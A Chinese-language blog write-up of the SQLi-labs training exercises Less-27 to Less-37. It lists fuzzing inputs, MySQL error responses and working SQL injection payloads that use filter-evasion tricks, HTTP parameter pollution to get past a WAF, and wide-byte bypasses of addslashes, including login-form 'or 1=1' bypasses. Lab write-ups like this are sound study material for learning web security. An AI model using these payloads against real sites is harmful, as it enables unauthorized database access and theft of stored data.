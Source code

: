 ```yaml
---
layout: post
title: SQL注入（十三）
desc: ""
keywords: ""
date: 2016-11-17
categories: []
tags: []
---
```


<h2>Less-27 &amp; Less-27a</h2>

<h3>Fuzz</h3>

<pre class="lang:tsql decode:true">?id=uniunionon1'</pre>

<blockquote>
  You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''union1'' LIMIT 0,1' at line 1
</blockquote>

<pre class="lang:tsql decode:true">?id=selselectect1'</pre>

<blockquote>
  You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
</blockquote>

<pre class="lang:tsql decode:true">?id=sElect1'</pre>

<blockquote>
  You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''sElect1'' LIMIT 0,1' at line 1
</blockquote>

<h3>Payload</h3>

<pre class="lang:tsql decode:true">?id=0'%0auniunionon%0asElect%0a1,2,3%0aor%0a'1'='1</pre>

Less-27a同理，但换成了盲注，闭合方式变成了双引号

<pre class="lang:tsql decode:true">?id=0"%0auniunionon%0asElect%0aversion(),database(),3%0aand%0asleep(10)%0aor%0a"1"="1
</pre>

<h2>Less-28 &amp; Less-28a</h2>

<h3>Fuzz</h3>

<pre class="lang:tsql decode:true ">?id=1')%0aor%0a('1')=('1</pre>

是括号和引号闭合的，不知道为啥这题变成了盲注。明明应该是有回显注入的 =，=

<h3>Payload</h3>

<pre class="lang:tsql decode:true ">id=0%27)%a0union%a0select%a01,group_concat(email_id),3%a0from%a0emails%a0
where%a0(%271%27=%271</pre>

<h2>Less-29 &amp; Less-30</h2>

Bypass a waf

<h2>Fuzz</h2>

这个比较诡异了，一开始并没有看到防火墙的存在，但去分析了一下源码发现原来是我打开姿势不正确……

一直都是为了图方便用/Less-29/?id=1在搞，但是这个题目是想让你用/Less-29/login.php?id=1

首先可以看到当id=1的时候是正常的，但当我们输入了一个引号的时候就被“世界上最好的防火墙”拦下来了

<img src="http://oc42vgpoj.bkt.clouddn.com/less29_waf.png" />

很容易发现各种特殊符号都被拦截下来了，貌似只能输入数字

<h2>WAF</h2>

很诡异的是查的资料都是JSP的WAF，而我的源码文件夹只有PHP文件，并且没有WAF的痕迹，在看完源码之后发现了一处

<pre class="lang:php decode:true">$id1=java_implimentation($qs);&lt;br&gt;</pre>

于是去其他地方翻，终于翻到了JSP的WAF。其实我现在做的这个练习是用PHP重写的，只是在PHP里面重现了JSP才会涉及的漏洞

<pre class="lang:java decode:true ">&lt;%
    String id = request.getParameter("id");
    String qs = request.getQueryString();
        
    if(id!=null)
    {
        if(id!="")
        {
            try
            {
                String rex = "^\\d+$";
              /**
                *这里的正则表达式有点绕，第一个反斜线其实是放在字符串里面转义的，
                *也就是说真正的表达式应该是^\d+$，^是开始位置，$是结束位置。
                *意思是匹配所有的数字
                */
                
                Boolean match=id.matches(rex);
                // 这里开始判断，如果输入的是纯数字，则放行，略坑啊
                if(match == true)
                {
                    URL sqli_labs = new URL("http://localhost/sqli-labs/Less-29/index.php?"+ qs);
                    URLConnection sqli_labs_connection = sqli_labs.openConnection();
                    BufferedReader in = new BufferedReader(
                                            new InputStreamReader(
                                            sqli_labs_connection.getInputStream()));
                    String inputLine;
                    while ((inputLine = in.readLine()) != null)
                        out.print(inputLine);
                    in.close();
                }
                else
                {
                    response.sendRedirect("hacked.jsp");
                }
            }
            catch (Exception ex)
            {
                out.print("&lt;font color= '#FFFF00'&gt;");
                out.println(ex);
                out.print("&lt;/font&gt;");                
            }
            finally
            {
                
            }
        }
</pre>

<h3>HTTP Parameter Pollution</h3>

这里涉及到了HPP漏洞（HTTP参数污染）

当我们为HTTP提交多个重名的参数时，不同的服务器将对他们做出不同的解析。jsp页面会只取第一个参数带入，而php页面则会只取最后一个参数带入。

我们看下面的两个实验结果（JSP的是我随便找的一个页面2333）

JSP:

<img src="http://oc42vgpoj.bkt.clouddn.com/less29_jsp_test1.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less29_jsp_test2.png" />

PHP:

<img src="http://oc42vgpoj.bkt.clouddn.com/less29_php_test1.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less29_php_test2.png" />
我们分析可知，WAF是用JSP写的（相当于JSP吧），于是只有输入的第一个参数会被检测，而PHP里面会执行的则是最后一个参数，用这种方法能够绕过WAF

<h3>Payload</h3>

<pre class="lang:tsql decode:true">?id=1&amp;id=-1' union select 1,database(),version() +--+</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/less29_bypass.png" />
通关

Less-30同理，不过换成了盲注和双引号闭合

<pre class="lang:tsql decode:true ">?id=1&amp;id=1" or 1=1 +--+</pre>

<h2>Less-32 &amp; Less-33</h2>

Multi-bytes &amp; Bypass addslashes

<h3>Fuzz</h3>

在输入?id=1'后发现我们的单引号被加了一个反斜杠，转义了，不能实现他的功能。没有单引号我们无法闭合，所以需要把单引号放出来。

<h3>Multi-bytes</h3>

这一节其实在讲宽字节注入，首先说什么是宽字节。

在ASCII码对应的128个字符，每个字符只占1字节。但世界上的语言众多，存在很多无法用1个字节描述的符号，这些符号会占用多个字节。比如UTF-16编码的符号，就占用2字节。

而在addslashes()的判断过程中，只会一个字符一个字符的比对，如果存在处于黑名单的字符，就加上一个反斜杠。比如?id=1'送入判断方法中时，1会被放过，而'会被添加一个反斜杠，变成了1\'。在十六进制编码中，也就是把%31%27变成了%31%5c%27。

当我们使用宽字节如%bf时，则是将%bf%27转化成%bf%5c%27。在MySQL中，可以接受宽字节的字符，于是会把%bf和%5c看成一个宽字节字符，于是就变成了(%bf%5c)(%27)。单引号被释放出来了

<h3>Payload</h3>

<pre class="lang:tsql decode:true ">?id=0%bf' union select 1,2,3 +--+</pre>

<h2>Less-34</h2>

Post类型的宽字节注入，同理

<h3>Payload</h3>

<pre class="lang:default decode:true ">uname=admin+%df%27 or 1=1 # &amp;passwd=123&amp;submit=Submit</pre>

<h2>Less-35</h2>

就！是！个！坑！根本不需要单引号

<h2>Less-36</h2>

同理

<h2>Less-37</h2>

<pre class="lang:tsql decode:true  ">uname=1%bf' or 1=1 # &amp;passwd=1&amp;submit=Submit</pre>

&nbsp;
